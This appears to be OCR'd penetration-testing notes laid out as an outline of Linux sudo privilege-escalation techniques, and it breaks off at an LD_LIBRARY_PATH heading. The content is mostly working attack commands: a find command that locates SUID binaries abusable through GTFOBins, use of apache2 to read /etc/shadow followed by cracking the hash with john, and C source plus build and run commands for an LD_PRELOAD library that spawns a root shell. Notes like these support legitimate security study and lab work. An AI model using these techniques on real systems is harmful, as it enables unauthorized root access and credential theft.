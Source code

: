 		- Shell Escape Sequences

			- Detection

				- $ ./lse.sh -i
				- $ sudo -l

			- Exploitation

				- https://gtfobins.github.io/
				- $ find / -perm -u=s -type f 2>/dev/null | grep -E "/aria2c|/arp|/ash|/base32|/base64|/bash|/busybox|/cat|/chmod|/chown|/chroot|/cp|/csh|/curl|/cut|/dash|/date|/dd|/dialog|/diff|/dmsetup|/docker|/emacs|/env|/eqn|/expand|/expect|/file|/find|/flock|/fmt|/fold|/gdb|/gimp|/grep|/gtester|/hd|/head|/hexdump|/highlight|/iconv|/ionice|/ip|/jjs|/jq|/jrunscript|/ksh|/ksshell|/ld.so|/less|/logsave|/look|/lwp - download|/lwp-request|/make|/more|/mv|/nano|/nice|/nl|/node|/nohup|/od|/openssl|/perl|/pg|/php|/pico|/python|/readelf|/restic|/rlwrap|/rpm|/rpmquery|/rsync|/run-parts|/rvim|/sed|/setarch|/shuf|/soelim|/sort|/start-stop-daemon|/stdbuf|/strace|/strings|/systemctl|/tac|/tail|/taskset|/tclsh|/tee|/tftp|/time|/timeout|/ul|/unexpand|/uniq|/unshare|/uudecode|/uuencode|/vim|/watch|/wget|/xargs|/xxd|/zsh|/zsoelim"

		- Abusing Intended Functionality

			- Detection

				- $ sudo -l

			- Exploitation

				- $ sudo apache2 -f /etc/shadow
				- $ echo '$6$Tb/euwmK$OXA.dwMeOAcopwBl68boTG5zi65wIHsc84OWAIye5VITLLtVlaXvRDJXET..it8r.jbrlpfZeMdwD3B0fGxJI0' > hash.txt'
				- $ john --format=sha512crypt --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
				- $ su

		- Environment Variables

			- LD_PRELOAD

				- Detection

					- $ sudo -l

				- Exploitation

					-  env_keep+=LD_PRELOAD ?

						- #include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>
void _init() {
unsetenv("LD_PRELOAD");
setresuid(0,0,0);
system("/bin/bash -p");
}
						- $ gcc -fPIC -shared -nostartfiles -o /tmp/preload.so preload.c
						-  $ sudo LD_PRELOAD=/tmp/preload.so apache2

			- LD_LIBRARY_PATH
